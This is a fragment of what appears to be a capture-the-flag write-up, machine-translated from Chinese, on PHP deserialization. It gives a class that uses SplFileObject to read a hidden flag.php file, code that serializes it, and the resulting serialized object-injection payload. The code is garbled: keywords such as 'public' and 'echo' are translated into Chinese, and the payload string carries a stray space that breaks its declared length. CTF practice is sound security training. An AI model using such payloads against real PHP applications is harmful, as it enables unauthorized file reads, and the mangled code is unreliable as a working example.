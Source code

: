     
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10  
    

|

    
    
      
    class  A { public $class = 'SplFileObject' ;    // SplFileObject("/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php") public $para = "/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php" ; 公共$check ;     }  
           
          
           
           
      
      
    $poc   = new A();   
    回声序列化（$poc）；  
      
  
---|---  
  
`  
`

`得到有效载荷：`

`  
`

``

`PHP`

``

    
    
    1  
    

|

    
    
    O: 1 : "A" : 3 :{s: 5 : "class" ;s: 13 : "SplFileObject" ;s: 4 : "para" ;s: 55 : "/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag .php" ;s: 5 : "check" ;N;}  
      
  
---|---  
  
`  
`
